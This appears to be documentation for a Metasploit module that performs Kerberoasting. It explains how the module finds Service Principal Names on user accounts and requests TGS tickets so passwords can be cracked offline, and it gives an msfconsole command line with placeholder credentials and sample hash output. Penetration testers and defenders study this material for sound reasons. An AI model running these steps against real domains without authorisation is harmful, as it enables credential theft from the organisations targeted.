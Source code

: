 ## Description

This module will try to find Service Principal Names (SPN) that are associated with normal user accounts on the specified domain and then submit requests to retrieve Ticket Granting Service (TGS) tickets for those accounts, which may be partially encrypted with the SPNs NTLM hash. After retrieving the TGS tickets, offline brute forcing attacks can be performed to retrieve the passwords for the SPN accounts.

## Verification Steps

To avoid library/version conflict, it would be useful to have a pipenv virtual environment.

* `pipenv --two && pipenv shell`
* Follow the [impacket installation steps](https://github.com/CoreSecurity/impacket#installing) to install the required libraries.
* Have a domain user account credentials
* `./msfconsole -q -x 'use auxiliary/gather/get_user_spns; set rhosts <dc-ip> ; set smbuser <user> ; set smbpass <password> ; set smbdomain <domain> ; run'`
* Get Hashes

## Scenarios

```
$ ./msfconsole -q -x 'use auxiliary/gather/get_user_spns; set rhosts <dc-ip> ; set smbuser <user> ; set smbpass <password> ; set smbdomain <domain> ; run'
rhosts => <dc-ip>
smbuser => <user>
smbpass => <password>
smbdomain => <domain>
[*] Running for <domain>...
[*] Total of records returned <num>
[+] ServicePrincipalName                              Name        MemberOf                                                                          PasswordLastSet      LastLogon           
[+] ------------------------------------------------  ----------  --------------------------------------------------------------------------------  -------------------  -------------------
[+] SPN...              User...   List...  DateTime... Time... 
[+] $krb5tgs$23$*user$realm$test/spn*$<data>
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

